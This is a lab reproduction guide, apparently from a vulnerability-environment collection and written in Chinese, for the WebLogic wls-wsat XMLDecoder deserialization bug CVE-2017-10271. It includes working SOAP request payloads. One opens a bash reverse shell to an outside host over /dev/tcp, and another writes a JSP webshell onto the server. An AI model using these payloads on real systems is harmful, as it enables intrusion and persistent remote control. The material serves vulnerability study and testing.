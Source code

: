 # Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）

Oracle Weblogic 是 Oracle 公司开发的一款企业级应用服务器，提供了广泛的企业级应用开发和部署功能。

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

启动测试环境：

```
docker compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。

## 漏洞复现

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：

![](1.png)

写入webshell（访问：`http://your-ip:7001/bea_wls_internal/test.jsp`）：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

